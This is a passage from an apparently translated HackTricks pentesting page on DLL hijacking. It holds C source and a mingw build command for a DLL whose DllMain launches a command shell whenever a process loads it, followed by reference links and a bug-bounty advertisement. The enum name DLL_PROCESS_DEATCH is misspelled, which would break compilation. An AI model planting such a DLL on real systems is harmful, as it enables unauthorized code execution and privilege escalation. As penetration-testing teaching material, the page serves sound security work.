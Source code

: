 ```c
//Another possible DLL
// i686-w64-mingw32-gcc windows_dll.c -shared -lws2_32 -o output.dll

#include<windows.h>
#include<stdlib.h>
#include<stdio.h>

void Entry (){ //Default function that is executed when the DLL is loaded
system("cmd");
}

BOOL APIENTRY DllMain (HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
switch (ul_reason_for_call){
case DLL_PROCESS_ATTACH:
CreateThread(0,0, (LPTHREAD_START_ROUTINE)Entry,0,0,0);
break;
case DLL_THREAD_ATTACH:
case DLL_THREAD_DETACH:
case DLL_PROCESS_DEATCH:
break;
}
return TRUE;
}
```
## संदर्भ

* [https://medium.com/@pranaybafna/tcapt-dll-hijacking-888d181ede8e](https://medium.com/@pranaybafna/tcapt-dll-hijacking-888d181ede8e)
* [https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html](https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html)

<figure><img src="../../.gitbook/assets/i3.png" alt=""><figcaption></figcaption></figure>

**बग बाउंटी टिप**: **साइन अप करें** **Intigriti** के लिए, एक प्रीमियम **बग बाउंटी प्लेटफार्म जो हैकर्स द्वारा, हैकर्स के लिए बनाया गया है**! आज ही [**https://go.intigriti.com/hacktricks**](https://go.intigriti.com/hacktricks) पर हमारे साथ जुड़ें, और **$100,000** तक की बाउंटी कमाना शुरू करें!

{% embed url="https://go.intigriti.com/hacktricks" %}

{% hint style="success" %}